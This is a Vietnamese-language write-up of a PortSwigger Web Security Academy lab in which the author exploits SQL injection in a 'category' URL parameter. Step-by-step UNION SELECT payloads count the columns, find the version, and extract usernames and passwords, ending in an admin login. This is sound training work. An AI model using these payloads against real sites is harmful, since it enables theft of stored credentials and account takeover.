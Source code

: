 # Write-up: SQL Injection UNION Attack, Retrieving Multiple Values in a Single Column

### Tổng quan 
Write-up này ghi lại quá trình giải bài lab SQL Injection trên PortSwigger Web Security Academy tập trung vào việc khai thác SQL injection bằng tấn công UNION để lấy username và password từ bảng users 

### Mục tiêu
Trích xuất tất cả username và password sau đó đăng nhập với tài khoản administrator 

### Công cụ sử dụng
- Burpsuite Community
- FireFox Browser 

### Các bước thực hiện 
1. **Thu thập thông tin (Recon)**
- Kiểm tra tham số `category` trong URL (`filter?category=Gifts`) và thêm `'` để kích hoạt lỗi SQL:
   - **Kết quả**: Lỗi SQL xuất hiện, xác nhận lỗ hổng.
   ![1](./images/sql_error.png)

- Sử dụng BurpSuite để kiểm tra số cột với payload:
    ```
    filter?category=Gifts'+UNION+SELECT+NULL,NULL--
    ```
  - **Kết quả**: Xác định 2 cột.
- Xác nhận Cột hiển thị chuỗi bằng:
  ```
  Payload:
  filter?category=Gifts'+UNION+SELECT+'test',NULL--

  ->Internal Server Error
  ```

  ```
  Payload:
  filter?category=Gifts'+UNION+SELECT+NULL,'test'--

  -> Cột 2 hiển thị kết quả trả về
  ```
2. **Tạo Payload**
- Kiểm tra version của web để xác định kiểu String concatenation
    ```
    filter?category=Gifts'+UNION+SELECT+NULL,+version()--

    -> PostgreSQL 12.22 (Ubuntu 12.22-0ubuntu0.20.04.2) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0, 64-bit
    ```

- Tạo payload UNION để nối username và password:
    ```
    'UNION SELECT NULL, username || '~' || password FROM users--
    ```

3. **Khai thác (Exploitation)**
- Gửi payload qua Burp Repeater:
    ```
    GET /filter?category=Gifts'UNION+SELECT+NULL,+username+||+'~'+||+password+FROM+users-- HTTP/2
    ```
    - **Kết quả**: Lấy được `administrator~g5qqbext2s584y1e0i1g`
    ![1](./images/result.png)

- Đăng nhập lại `/login` với thông tin trên, hoàn thành lab.
  ![1](./images/login_success.png)

### Bài học rút ra
- Nâng cao kĩ năng UNION để trích xuất dữ liệu đa cột.
- Tối ưu hóa BurpSuite trong khai thác SQLi

### Tài liệu tham khảo
- PortSwigger: SQL Injection cheat sheet
- PortSwigger: UNION Attacks

### Kết luận
Lab này giúp tôi hoàn thiện kỹ năng SQL injection và sử dụng Burp Suite. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.